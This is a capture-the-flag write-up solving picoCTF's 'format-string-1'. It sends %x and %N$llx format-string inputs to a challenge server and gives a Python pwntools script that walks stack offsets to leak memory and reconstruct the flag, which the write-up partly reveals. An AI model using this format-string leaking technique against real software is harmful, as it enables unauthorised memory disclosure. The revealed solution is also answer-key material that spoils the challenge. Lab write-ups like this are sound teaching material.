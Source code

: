 # Description
Patrick and Sponge Bob were really happy with those orders you made for them, but now they're curious about the secret menu. Find it, and along the way, maybe you'll find something else of interest!

# Context
On connecting via netcat:
```bash
❯ nc mimas.picoctf.net 62487
Give me your order and I'll read it back to you:
1
Here's your order: 1
Bye!
```

We can also know that the binary is 64-bit:
```
❯ objdump -a format-string-1

format-string-1:     file format elf64-x86-64
format-string-1

```
# Solving
## Trying some weird inputs
Since the name of the challenge is "format-string-1", lets try using some format char inputs.
### Reading some unset bytes from ``buf``
```
❯ nc mimas.picoctf.net 62487
Give me your order and I'll read it back to you:
%x%x%x%x%x
Here's your order: 40211804076a00021d7880
Bye!
```
### Reading the arg ``buf`` using ``buf``?
Since this is a 64-bit program, the argument for the `printf` function
can be accessed using the `%5$s` format string. The syntax is `%<arg number>$<format>` for 32-bit programs, and `%<arg_number+5>$<format>` for 64-bit.
```bash
❯ nc mimas.picoctf.net 62487
Give me your order and I'll read it back to you:
hello%5$s
Here's your order: hellohello%5$s

Bye!
```

### Exploring the stack
We saw that we can read the argument `buf` using `%5$s`, but we can go
even further and explore the stack to find some interesting values.
This is possible because in case the `printf` function needs more arguments
those will be read from the stack. We can use the `%<arg_number>$lx` format with a higher number to read the stack.

The following python code will help us explore the stack this way:

It will connect to the server, send a payload, and return the response cutting the added part of the response, in order to get only the bytes read from memroy. The response will be decoded from hex to utf-8 if it has 16 bytes (In other case it means we red something else, mostly alignment padding).

```python
def connect_send(payload):
    io = remote("mimas.picoctf.net", 61211)
    print(str(io.recvline()))
    io.sendline(payload)
    recvd = io.recvall()
    recvd = recvd.replace(b"Here's your order: ", b"")
    recvd = recvd.replace(b"\nBye!\n", b"")
    return try_string(recvd)

def try_string(hex_string):
    if len(hex_string)>=16:
        try:
            decoded_string = codecs.decode(hex_string, "hex").decode("utf-8")
            print("!!!!!!!!!!!!!!!! Decoded string: ", decoded_string)
            return decoded_string
        
        except Exception as e:
            print("Error decoding string: ", e)

def explore_the_stack():
    findings = []
    for i in range(20):
        pos_offseted = 5+i
        finding = connect_send(b"%"+str(pos_offseted).encode()+b"$llx")
        if(finding != None):
            findings.append(finding)

    print(findings)
```
The execution of the code will give us the following output:

['{FTCocip', '5_14m1n4', '4x4_31y7', 'e5_g41f_', '}4bcb76', '#\x00\x00\x00\x07', ' ni3t0rP']

Clearly some of the flag is revealed in the output, if we reverse the first element in the array.
The flag would be the first five elements reversed. The output is reversed because the endianess of the memory
but since each character is 1 byte, data doesn't break reading this way, just gets reversed.

This leaves us with a single question:
Is the last item in the array the secret ingredient?